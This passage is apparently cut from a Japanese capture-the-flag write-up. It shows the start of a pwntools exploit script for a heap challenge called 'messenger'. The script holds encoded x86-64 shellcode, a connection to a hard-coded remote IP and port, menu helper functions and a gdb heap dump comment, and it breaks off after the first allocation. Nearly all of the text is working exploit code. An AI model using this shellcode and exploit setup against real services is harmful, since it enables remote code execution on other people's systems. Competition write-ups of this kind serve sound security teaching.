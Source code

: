 ```python
shellcode =  ''
shellcode += '\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05'
shellcode += '\xef\xff\xff\xff\x48\xbb\x80\x51\x84\x63\x84\x7a\x7b'
shellcode += '\x73\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4'
shellcode += '\xea\x6a\xdc\xfa\xcc\xc1\x54\x11\xe9\x3f\xab\x10\xec'
shellcode += '\x7a\x28\x3b\x09\xb6\xec\x4e\xe7\x7a\x7b\x3b\x09\xb7'
shellcode += '\xd6\x8b\x8c\x7a\x7b\x73\xaf\x33\xed\x0d\xab\x09\x13'
shellcode += '\x73\xd6\x06\xcc\xea\x62\x75\x7e\x73'

# r = process('./messenger-patched')
r = remote('110.10.212.137',  3333)

#  _ __ ___   ___  ___ ___  ___ _ __   __ _  ___ _ __
# | '_ ` _ \ / _ \/ __/ __|/ _ \ '_ \ / _` |/ _ \ '__|
# | | | | | |  __/\__ \__ \  __/ | | | (_| |  __/ |
# |_| |_| |_|\___||___/___/\___|_| |_|\__, |\___|_|
#                                     |___/
# [L]eave message
# [R]emove message
# [C]hange message
# [V]iew message
# [Q]uit
# >>

def choose_action(c):
    r.recvuntil('[Q]uit\n>> ')
    r.sendline(c)

def leave_message(n, s):
    choose_action('L')
    r.recvuntil('size : ')
    r.sendline(str(n))
    r.recvuntil('msg : ')
    r.send(s)

def remove_message(i):
    choose_action('R')
    r.recvuntil('index : ')
    r.sendline(str(i))

def change_message(i, n, s):
    choose_action('C')
    r.recvuntil('index : ')
    r.sendline(str(i))
    r.recvuntil('size : ')
    r.sendline(str(n))
    r.recvuntil('msg : ')
    r.send(s)

def view_message(i):
    choose_action('V')
    r.recvuntil('index : ')
    r.sendline(str(i))
    return r.recvuntil('\n[L]eave')[:-len('\n[L]eave')]

def quit():
    choose_action('Q')

# add 1st message
leave_message(4, 'AAAA')

# gdb-peda$ x/50xg 0x603000 <- heap base
# 0x603000:	0x0000000000000018	0x0000000000603018
```

[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.